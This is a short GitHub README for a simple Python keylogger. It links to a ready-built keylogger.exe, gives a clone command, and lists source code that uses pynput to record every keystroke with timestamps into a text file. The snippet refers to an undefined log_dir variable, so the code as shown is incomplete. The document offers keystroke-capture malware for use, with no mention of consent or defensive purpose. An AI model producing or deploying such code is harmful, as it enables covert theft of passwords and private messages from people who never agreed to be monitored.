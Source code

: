 ### keylogger
A simple keylogger made with python.It stores the letters in the text file.
### Download the exe 
[Download](https://github.com/shourgamer2/keylogger/releases/download/version1.0.0/keylogger.exe)
### Fork this repo
```sh
git clone https://github.com/shourgamer2/keylogger
```
### Modify the code 
You need python installed in your system to modify the code
Import the needed things 
``` python
from pynput.keyboard import Key, Listener
import logging
```
Logging 
``` python 
logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')
```
Making the logger 
``` python
def on_press(key):
    logging.info(str(key))
    
with Listener(on_press=on_press) as listener:
    listener.join() 
   ```
   ### How does it work 
   It logs all the things you type in your keyboard and stores it in a text file
   
